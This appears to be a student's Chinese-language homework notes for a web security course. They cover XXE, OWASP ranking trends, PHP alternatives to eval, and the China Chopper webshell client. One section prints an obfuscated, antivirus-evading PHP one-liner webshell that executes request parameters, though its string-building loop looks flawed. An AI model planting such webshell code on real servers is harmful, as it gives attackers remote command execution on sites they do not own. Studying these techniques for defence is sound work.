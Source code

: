 # **Webshell与文件上传漏洞**
## 1.请思考：XXE漏洞的原理的是什么？有哪些危害？
>XML外部实体注入(XML External Entity)。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

更多内容参见腾讯安全应急响应中心的 **[这篇文章](https://security.tencent.com/index.php/blog/msg/69) ** 及   **[这份文件](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)**

## 2.寻找OWASP 近年漏洞的排名变化，思考未来哪些方面会成为Web应用主要安全威胁？
纵观2013-2017的排名，注入（Injection
）稳居榜首。普遍性：几乎任何数据源都能成为注入载体，包括环境变量、所有类型的用户、参数、外部和内部Web服务。危害性：注入能导致数据丢失、破坏或泄露，其重要性不可忽视。同时，XXE作为后起之秀能够直接冲到Top排行榜的第4，值得思考（似乎连微信支付都沦陷了）。

## 3.请思考：都有哪些PHP函数可以替代eval？
 错误姿势：
```
 <?php

 	/*
 	据说免杀的一句话
 	assert($string)
 	*/

 	  $arr = array('a','s','s','e','r','t');

 	  $func = '';

   	  for($i=0;$i<count($arr);$i++) {

   	    $func .= $func . $arr[$i];

   	  }

 	  $func($_REQUEST['c']);

 ?>
```
正确姿势：具体情况具体分析,例如代码

`eval("echo'hello world';");`

上边代码等同于下边的代码：

`echo"hello world";`

在浏览器中都输出：hello world（手动滑稽）
## 4.请使用中国菜刀对网站数据库进行管理操作。
![caidao](http://wx1.sinaimg.cn/mw690/c4428b0bgy1g0x5wd4xd3j211y0lc7d3.jpg)
